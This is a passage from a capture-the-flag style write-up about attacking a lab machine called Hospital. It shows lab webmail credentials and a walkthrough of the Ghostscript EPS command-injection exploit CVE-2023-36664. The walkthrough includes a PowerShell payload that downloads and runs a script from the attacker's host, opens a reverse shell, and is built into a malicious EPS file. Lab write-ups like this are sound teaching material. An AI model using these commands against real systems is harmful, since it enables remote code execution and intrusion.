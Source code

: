 ### Gaining access to the webmail

So now we have drwilliams password we can try to access the webmail we saw before on port **443**. I was able to access the page using the following credentials

```
username: drwilliams@hospital.htb
password: qwe123!@#
```

When logging into the webmail we could see the following mail. Mentioning that drbrown is expecting an eps file soon.

![Mail](/assets/img/Hospital/Hospital_07.png)

Looking deeper into eps files i found the following publicly known exploit on [github](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection). Basically it is possible to embed commands within eps files that will run whenever these files are opened. I downloaded the tool from github and then made the following payload to put in the eps file.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.184/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.184 -Port 443
```

The payload makes use of the **Invoke-PowerShellTcp.ps1** scripy of [nishang](https://github.com/samratashok/nishang) This github repo contains multiple powershell scripts including reverse shells and other post exploitation tools. next i setup a webserver in the shells directory of the github project using python.

```
python -m http.server 80
```

So now the preparations for our payload were made. Next i generated the eps file using the before mentioned github project. Using the following command it was possible to generate the malicious eps file.

```
python3 CVE_2023_36664_exploit.py --payload "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.184/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.184 -Port 443" --filename medical --extension eps --generate
```

